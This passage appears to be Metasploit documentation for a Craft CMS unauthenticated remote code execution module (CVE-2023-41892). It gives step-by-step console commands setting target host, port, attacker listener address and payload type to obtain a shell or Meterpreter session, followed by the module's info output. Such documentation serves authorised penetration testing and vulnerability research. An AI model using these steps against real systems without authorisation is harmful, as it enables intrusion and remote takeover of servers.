 You are now ready to test the module.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/craftcms_unauth_rce_cve_2023_41892`
- [x] `set rhosts <ip-target>`
- [x] `set rport 443`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=php, 1=Unix Command, 2=Linux Dropper>`
- [x] `exploit`

you should get a `shell` or `Meterpreter`


```shell
msf exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > info

       Name: Craft CMS unauthenticated Remote Code Execution (RCE)
     Module: exploit/linux/http/craftcms_unauth_rce_cve_2023_41892
   Platform: Unix, Linux, PHP
       Arch: cmd, php, x64, x86
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-09-13

Provided by:
  chybeta
  h00die-gr3y <h00die.gr3y@gmail.com>

Module side effects:
 artifacts-on-disk
 ioc-in-logs

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                        ml
  RPORT      443              yes       The target port (TCP)
  SSL        true             no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       Craft CMS base url
  URIPATH                     no        The URI to use for this exploit (default is random)
```